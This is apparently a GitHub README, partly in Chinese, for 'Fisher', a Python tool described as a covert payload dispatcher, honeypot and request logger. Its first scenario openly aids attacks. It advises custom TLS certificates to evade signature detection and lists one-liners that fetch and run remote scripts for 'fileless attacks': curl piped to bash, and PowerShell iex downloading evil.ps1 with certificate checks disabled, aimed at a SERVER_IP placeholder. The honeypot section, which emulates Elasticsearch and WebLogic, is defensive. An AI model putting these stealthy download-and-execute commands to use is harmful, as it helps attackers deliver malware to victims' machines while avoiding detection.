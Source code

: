 # Fisher

Fisher is a dispatcher、honeypot and http-request logger.

隐蔽的下发程序、蜜罐、http请求记录。

## 参数

```
python3 fisher.py -p [port] {-s} {-z 0/1}

		-h / --help : show help message
		-p / --port : set server port to listen on
		-s / --tls : https support
		-z / --honeypot : 
		                 '1' for elasticsearch
						 '2' for weblogic
```

## 场景

### 场景1 样本下发

**step1:** 根目录手工生成证书。默认证书用的多了会被标记特征，强烈建议自己手动生成一个。

```shell
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

**step2:** 将待下发文件放置在data目录中。拉起程序后会自动放置于随机目录中。

**step3:** 运行以下命令。

```shell
python3 fisher.py -p 56221 -s
```

![2022-07-09_135007](.\2022-07-09_135007.png)

**step4**：如上图所示，客户端可以使用如下方法隐蔽的下载程序，可用于辅助实施无文件攻击。

```shell
# Linux
'''
curl https://SERVER_IP:8443/JHB0IwokE5Y7nDUqOdaxur8Mi31Q9g/bash/1.sh -k -s|bash
wget https://SERVER_IP:8443/JHB0IwokE5Y7nDUqOdaxur8Mi31Q9g/bash/1.sh --no-check-certificate
'''

# Windows
'''
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
iex(New-Object Net.WebClient).DownloadString('https://SERVER_IP:8443/asdW323dj293S02eaj302dj02d932/evil.ps1')

(New-Object Net.WebClient).DownloadFile('https://SERVER_IP:8443/asdW323dj293S02eaj302dj02d932/1.zip','c:\1.zip')
'''
```

### 场景2 蜜罐

简单模拟elasticsearch、weblogic两种服务。

**step1:** 如需https支持，需要手动生成证书

```shell
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

**step2:** 运行以下命令。

```shell
#elasticsearch
python3 fisher.py -p 56221 -s -Z 0

#weblogic
python3 fisher.py -p 56221 -s -Z 1
```

**step3:**标红的\[H]记录表示蜜罐相关事件，相关细节也完整的存储在log目录下，甚至包含POST数据。

![2022-07-09_134711](.\2022-07-09_134711.png)
